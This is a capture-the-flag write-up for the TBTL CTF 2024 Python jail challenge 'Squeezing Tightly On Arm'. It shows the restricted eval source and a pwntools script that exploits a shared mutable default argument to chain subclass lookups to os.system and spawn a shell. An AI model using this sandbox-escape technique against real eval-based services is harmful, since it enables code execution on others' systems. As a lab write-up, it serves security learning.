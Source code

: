# TBTL CTF 2024 Squeezing Tightly On Arm

```python
import sys
version = sys.version_info
del sys

FLAG = 'TBTL{...}'
del FLAG


def check(command):

    if len(command) > 120:
        return False

    allowed = {
        "'": 0,
        '.': 1,
        '(': 1,
        ')': 1,
        '/': 1,
        '+': 1,
        }

    for char, count in allowed.items():
        if command.count(char) > count:
            return False

    return True


def safe_eval(command, loc={}):

    if not check(command):
        return

    return eval(command, {'__builtins__': {}}, loc)


for _ in range(10):
    command = input(">>> ")

    if command == 'version':
        print(str(version))
    else:
        safe_eval(command)
```

Requirements:

1. No `'`: Use `"` for strings
2. Some characters may appear only once: Save intermediate values to locals
3. No builtins: Use `().__class__.__base__.__subclasses__()` to bypass

The major problem here, is that the default argument `loc={}` is shared between calls. So the locals array is only one and shared between calls to `safe_eval`. So we can simply cut the attack `().__class__.__base__.__subclasses__()[158].__init__.__globals__["system"]["sh"]` into multiple steps:

```python
from pwn import *

context(log_level="debug")

subclasses = str(().__class__.__base__.__subclasses__())

# find the indices of the builtins
# assuming we are using the same Python version as remote

# assuming os._wrap_close is at 158
os_index = 158
assert subclasses.split(", ").index("<class 'os._wrap_close'>") == os_index

p = process(["python3", "squeezing_tightly_on_arm.py"])

# A=().__class__
p.recvuntil(b">>> ")
p.sendline(b"[A:=().__class__]")

p.recvuntil(b">>> ")
# B=().__class__.__base__
p.sendline(f"[B:=A.__base__]".encode())

p.recvuntil(b">>> ")
# C=().__class__.__base__.__subclasses__()
# O=C[os_index]=<class 'os._swap_close'>
p.sendline(f"[C:=B.__subclasses__(),O:=C[{os_index}]]".encode())

# O=<class 'os._wrap_close'>.__init__
p.recvuntil(b">>> ")
p.sendline(f"[O:=O.__init__]".encode())

# <class 'os._wrap_close'>.__init__.__globals__["system"]("sh")
p.recvuntil(b">>> ")
p.sendline(f'[O.__globals__["system"]("sh")]'.encode())

p.interactive()
```

Debugging tips: change `safe_eval(command)` to `print(safe_eval(command))` for debugging lovally.

References: [TBTL CTF 2024 (Pwn)](https://ssongkit.tistory.com/808).
